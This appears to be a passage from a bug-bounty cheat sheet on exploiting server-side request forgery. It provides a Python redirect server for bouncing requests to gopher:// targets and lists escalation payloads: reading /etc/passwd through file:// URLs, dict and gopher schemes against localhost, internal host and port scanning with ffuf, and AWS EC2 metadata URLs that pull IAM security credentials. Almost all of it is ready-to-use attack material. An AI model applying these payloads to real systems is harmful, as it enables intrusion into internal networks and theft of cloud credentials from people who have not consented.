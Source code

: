   ```bash
  python3 302redirect.py 8080 "gopher://mycollaboratorurl/"
  curl -I "https://r.icollab.info/r.php?r=gopher://localhost"
  ```
  ```python
  #!/usr/bin/env python3

  import sys
  from http.server import HTTPServer, BaseHTTPRequestHandler

  if len(sys.argv)-1 != 2:
      print ("""
  Usage: {} <port_number> <url>
      """.format(sys.argv[0]))
      sys.exit()
  
  class Redirect(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(302)
          self.send_header('Location', sys.argv[2])
          self.end_headers()
      def send_error(self, code, message=None):
          self.send_response(302)
          self.send_header('Location', sys.argv[2])
          self.end_headers()
  HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
  ```

# Escalate
- Fuzz to interacting with internal REST APIs.
- Disclosing the origin IP behind CDN by force target.tld to send a request to cvefix.ir. (*Informative = No money*)
- Reading internal files
  ```bash
  url=file:///etc/passwd
  url=/etc/passwd
  ```
- Check for useful scheme like Gpher, doct, ...
  ```html
  dic://127.0.0.1
  gopher://127.0.0.1            # gopher://IP:PORT/_[URL_encoded_packet]
  ``` 
- Perform Network Scanning for Hosts (IPs) and Ports, and search for MySQL, Redis, ... (*Minimum impact*)
  ```bash
  POST /product/stock HTTP/2
  (POST request body)
  stockApi=http://192.168.0.§1§:8080/admin/
  ```
  ```bash
  http://77.238.121.150:29171/page/?url=http://localhost:§8000§/admin-console
  ```
  ```bash
  ffuf -w wordlist -u https://interactivemap.redacted.com/pdf.axd?url=https://127.0.0.1:FUZZ
  ```
- Pull instance metadata if website is hosted on any cloud service. ([All payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery))
  - EC2
    ```bash
    url=http://169.254.169.254/latest/meta-data/
    url=http://169.254.169.254/latest/meta-data/local-hostname/  
    url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME 
    url=http://169.254.169.254/latest/dynamic/instance-identity/document/
    url=http://169.254.169.254/latest/user-data/
    ```